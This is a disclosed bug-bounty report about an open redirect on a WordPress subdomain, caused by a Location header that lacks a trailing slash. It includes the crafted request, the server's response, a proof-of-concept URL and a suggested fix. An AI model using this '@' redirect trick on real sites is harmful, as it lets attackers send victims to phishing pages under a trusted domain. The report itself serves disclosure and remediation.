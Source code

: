 # Open Redirect on the nl.wordpress.net

## Report Details
- **Report ID**: 309058
- **URL**: https://hackerone.com/reports/309058
- **State**: Closed
- **Severity**: low
- **Submitted**: 2018-01-25T17:33:02.479Z
- **Disclosed**: 2018-02-22T22:53:16.427Z

## Reporter
- **Username**: sp1d3rs
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: wordpress

## Vulnerability Information
##Description
Hello. I discovered an Open redirect vulnerability on the `nl.wordpress.org`.

##Root cause
The 301 Redirect contains full hostname, followed with `@` without trailing slash, when using:
```
GET /@google.com HTTP/1.1
Host: nl.wordpress.net
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:57.0) Gecko/20100101 Firefox/57.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Upgrade-Insecure-Requests: 1

```
```
HTTP/1.1 301 Moved Permanently
Date: Thu, 25 Jan 2018 17:26:07 GMT
Server: Apache
Location: http://nl.wordpress.org@google.com
Content-Length: 242
Keep-Alive: timeout=2, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=iso-8859-1

```

##POC (Google Chrome)
http://nl.wordpress.net/@google.com

##Suggested fix
Appending the trailing slash after location hostname should fix the issue.
e.g.
```
Location: http://nl.wordpress.org@google.com
```
=>
```
Location: http://nl.wordpress.org/@google.com
```

## Impact

The attacker can redirect the victim to the malicious site using legit *.wordpress.net subdomain name, which can be the copy of the real site, asking for the user credentials.

## Attachments
No attachments
